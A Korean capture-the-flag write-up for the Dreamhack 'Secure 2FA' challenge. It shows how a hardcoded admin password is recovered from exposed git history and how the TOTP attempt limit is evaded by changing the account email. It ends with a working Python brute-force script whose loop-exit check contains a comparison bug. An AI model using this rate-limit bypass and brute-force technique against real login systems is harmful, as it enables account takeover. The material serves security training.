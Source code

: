 # Secure 2FA
https://dreamhack.io/wargame/challenges/1251
## Description
```
드림이가 만든 웹 서비스의 git 리포지토리가 유출되었어요.
admin의 비밀번호도 숨겨 놓고 TOTP (Time-based One-Time Password)도 적용해서 안전하다는데...

git 리포지토리와 소스 코드를 분석하여 취약점을 찾고 익스플로잇하여 플래그를 획득하세요!

플래그 형식은 DH{...} 입니다.
```

# Exploit

## Get password
노출된 `.git`파일을 이욯해 `git cat-file` `git diff`로 과거 커밋에서 하드코딩된 비밀번호 확인 가능.
```
const ADMIN_PASSWORD = '7h15_i5_4dm1n_p4S5wo2d_:)';
const ADMIN_SECRET = process.env.ADMIN_SECRET;
```

## TOTP bypass

```js
async function getFailureCount(username) {
    const expirationSeconds = getExpirationSeconds();
    const redisKey = `TOTP_AUTH_FAILURE_COUNT:${accounts[username].email}`;
    const ret = await redisClient.multi()
        .incr(redisKey)
        .expire(redisKey, expirationSeconds, 'NX')
        .exec();
    return ret[0] - 1;
}
```
TOTP인증 제한회수를 확인해보면 `accounts[username].email`을 사용한다.
<br><br>

```js
app.get('/mypage', (req, res) => {
    if (req.session.isSignedIn !== true) {
        res.status(403);
        res.send('you are not signed in.');
        return;
    }

    const username = req.session.username;
    account = accounts[username];

    res.render('mypage', {
        username: username,
        name: account['name'],
        age: account['age'],
        email: account['email']
    });
});
```
`/mypage`엔드포인트에서는 `account['email']`의 값을 수정할 수 있다.

`TOTP`를 5회 시도하고 `email`을 바꾸는 방식으로 무작위 대입을 할 수 있다.    

## Exploit
```py
import requests
import random
import string
import sys


class Exploit():
    def __init__(self, port):
        self.status = False
        self.token = 100000
        self.baseurl = 'http://host3.dreamhack.games:'+port
        self.s = requests.session()

    def changeEmail(self):
        email = ''.join([string.ascii_letters[random.randint(1, 50)] for i in range(10)])
        data = {
            'name': 'Carl Dream',
            'age': 0,
            'email': f"{email}@example.com"
        }
        self.s.post(url=self.baseurl+'/mypage', data=data)

    def adminLogin(self):
        data = {
            'username': 'admin',
            'password': '7h15_i5_4dm1n_p4S5wo2d_:)'
        }
        self.s.post(url=self.baseurl+'/signin', data=data)

    def attack(self):
        self.adminLogin()
        while self.status == False:
            data = {'token': self.token}
            r = self.s.post(url=self.baseurl+'/admin', data=data)
            print(f"token > {self.token} {r.status_code} {r.text}")
            if self.token % 5 == 0:
                self.changeEmail()
            if r.status_code == 200:
                self.status == True
            self.token += 1


if __name__ == "__main__":
    Exploit(port=sys.argv[1]).attack()
```
FLAG를 얻을 수 있다.